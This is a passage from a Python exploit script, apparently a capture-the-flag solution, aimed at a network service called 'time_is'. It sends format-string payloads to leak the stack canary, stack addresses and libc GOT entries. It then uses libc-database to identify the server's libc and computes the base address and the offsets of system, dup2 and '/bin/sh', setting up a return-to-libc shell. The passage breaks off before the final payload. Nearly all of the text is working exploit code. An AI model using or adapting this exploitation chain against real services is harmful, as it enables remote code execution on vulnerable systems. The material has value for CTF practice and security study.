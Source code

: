 ```python
    recv_until(s, "Enter time zones separated by whitespace or q to quit\n")
    amount = 365
    send(s, "AAAAAAA" + "%p|"*(amount) + "---END")
    stack = recv_until(s, "---END").split("|")[:-1]
    # cnt = 0
    # for i in stack:
    #     print "%d: %s" % (cnt, i)
    #     cnt += 1

    canary      = stack[267]
    stack_addr  = stack[272]
    buffer_addr = int(stack[272], 16) - 2336
    print "------------------------------------"
    print "|     CANARY IS: %s|" % canary
    print "| stack_addr IS: %s    | (unused)" % stack_addr
    print "|buffer_addr IS: %s    | (unused)" % hex(buffer_addr)
    print "------------------------------------"


    # 2. Leak libc addresses
    print "\n*************************"
    print "*** LEAKING LIBC BASE ***"
    print "*************************"
    # "objdump -TR time_is" to get this plt addresses
    free_plt    = 0x603018 # free@GLIBC_2.2.5
    time_plt    = 0x603040 # time@GLIBC_2.2.5
    setvbuf_plt = 0x603050 # setvbuf@GLIBC_2.2.5
    gmtime_plt  = 0x603058 # gmtime@GLIBC_2.2.5

    amount = 40
    recv_until(s, "Enter time zones separated by whitespace or q to quit\n")
    send(s, "DDDDDDDD" + "%p|"*(amount) + "|%32$s|X" + "|%33$s|X" + "|%34$s|X" + "|%35$s|X" + "AAAABBBB" + p64(setvbuf_plt) + p64(time_plt) + p64(gmtime_plt) + p64(free_plt) + "---END")
    stack = recv_until(s, "AAAABBBB").split("|")[:-1]
    # cnt = 0
    # for i in stack:
    #     print "%d: %s" % (cnt, i)
    #     cnt += 1

    setvbuf_libc = unpack("Q", stack[41].ljust(8, "\x00"))[0]
    time_libc    = unpack("Q", stack[43].ljust(8, "\x00"))[0]
    gmtime_libc  = unpack("Q", stack[45].ljust(8, "\x00"))[0]
    free_libc    = unpack("Q", stack[47].ljust(8, "\x00"))[0]

    # We have now 4 different libc addresses (eventhough time's address is always wrong for some reason. We'll use the other 3.)
    # Lets determine which libc is the server using this "https://github.com/niklasb/libc-database".
    # It downloads the most common libcs and than given pairs of (function , offset) it returns the possible ones.
    # We, as team, could have a libc database so more rare libcs would be found for harder problems.
    #         Run: "./find setvbuf e70 free 940 gmtime d60"
    #      Result: ubuntu-xenial-amd64-libc6 (id libc6_2.23-0ubuntu7_amd64)
    # We then run: "./dump libc6_2.23-0ubuntu7_amd64" and get offsets of interesting funtions. Other offsets can be found in the symbols file.

    offset_setvbuf    = 0x6fe70
    offset_system     = 0x45390
    offset_dup2       = 0xf6d90
    offset_str_bin_sh = 0x18c177

    LIBC_BASE = setvbuf_libc - offset_setvbuf
```